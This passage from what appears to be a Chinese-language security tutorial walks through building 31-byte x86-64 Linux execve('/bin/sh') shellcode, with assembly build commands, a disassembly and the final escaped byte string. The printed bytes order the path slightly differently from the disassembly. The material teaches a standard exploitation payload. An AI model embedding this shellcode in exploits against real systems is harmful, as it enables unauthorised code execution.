 其中`rdi`存放的是第一个参数`char *filename`，即`/bin/sh`的地址，系统调用号存放在`rax`中，第二、三个参数为空，显然这64位系统函数调用参数传递代价更小。

`nasm -f elf64 shellcode.asm`生成可重定位目标文件：`shellcode.o`，使用`ld`链接器进行链接：`ld -o shellcode shellcode.o`，并运行可执行目标代码文件。

使用objdump反汇编shellcode.o可重定位文件：

```sh
test@ubuntu:~$ nasm -f elf64 shellcode.asm
test@ubuntu:~$ ld -o shellcode shellcode.o
test@ubuntu:~$ ./shellcode
$ whoami
test
$ exit
test@ubuntu:~$ objdump -d -M intel shellcode.o
shellcode.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <_start>:
   0:	48 31 ff             	xor    rdi,rdi
   3:	48 31 f6             	xor    rsi,rsi
   6:	48 31 d2             	xor    rdx,rdx
   9:	48 31 c0             	xor    rax,rax
   c:	50                   	push   rax
   d:	48 bb 2f 2f 62 69 6e 	movabs rbx,0x68732f6e69622f2f
  14:	2f 73 68 
  17:	53                   	push   rbx
  18:	48 89 e7             	mov    rdi,rsp
  1b:	b0 3b                	mov    al,0x3b
  1d:	0f 05                	syscall 
```

这样就获得了**31**字节长的Shellcode-Exceve字节码为：

```sh
\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05
```

### 参考资料

* [Demystifying the Execve Shellcode (Stack Method)](http://hackoftheday.securitytube.net/2013/04/demystifying-execve-shellcode-stack.html)
* [Shellcode Injection](https://dhavalkapil.com/blogs/Shellcode-Injection/)
* [Linux/x86-64 - execve /bin/sh Shellcode (31 bytes)](https://www.exploit-db.com/exploits/41883/)
* [Making system calls from Assembly in Mac OS X](https://filippo.io/making-system-calls-from-assembly-in-mac-os-x/)
* 计算机系统基础·袁春风 第三章 程序的转换与机器级表示


